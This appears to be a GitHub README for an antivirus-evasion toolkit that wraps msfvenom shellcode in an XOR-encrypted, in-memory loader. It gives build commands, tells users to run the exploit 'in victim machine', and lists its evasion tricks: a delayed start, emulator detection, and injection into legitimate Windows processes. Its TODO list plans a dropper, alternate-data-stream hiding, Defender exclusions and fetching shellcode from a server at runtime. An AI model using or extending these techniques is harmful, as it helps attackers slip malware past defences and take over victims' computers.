 ## Antivirus Evasion
These script will create a custom payload form msfvenom for anti-virus evasion

## Usage
Run the set up script to setup every thing

```bash
chmod +x setup.sh
```
Then 
```bash
./setup.sh
```

To create a 64 bit payload
```bash
cd _x64_builder && chmod +x *.sh
```
To create a 32 bit payload
```bash
cd _x32_builder && chmod +x *.sh
```

To generate payload run the scripts from respective folders

After building every thing will be in output folder and a listner file will be created called meta.rc

## Building the final exploit
The script will automatically build the script but if you want to do it manually then do the following

## Windows
For 32 bit
```bash
gcc -m32 -o output.exe main_exploit.c
```
For 64 bit
```bash
gcc -m64 -o output.exe main_exploit.c
```
## Linux(mingw required)
For 32 bit
```bash
i686-w64-mingw32-gcc -o output.exe main_exploit.c
```
For 64 bit
```bash
x86_64-w64-mingw32-gcc -o output.exe main_exploit.c
```

## Final exploit usage
Run the following command in victim machine
```bash
.\exploit.exe enc_shellcode.txt key.txt [pid]
```
**pid:- Process id**
**Note:- The process should not be running as a elevated user**

## Technique used
The script usage the following techniques for evasion

1. The script will do nothing for first 1 minute to bypass runtime analysis.

2. Then it will try to open a system file to check if it's running in a emulated enviornment.If so then it will exit.

3. The final exe require command line arguments to run properly.

4. The whole payload is encoded with xor algo.The exe will decrypt it on runtime and stores it in memory so the final payload never stored in disk

5. Then it will be injected into a process. If the process is a legit windows process(Like notepad,explorer.exe) then it will not trigger av.

## TODO
1. Create a dropper script

2. Hide everything by alternate data stream

3. Apply the defender exception rules on the malware folder

4. Download the encrypted shellcode and key from a server in runtime

5. Hardcode the variable and function names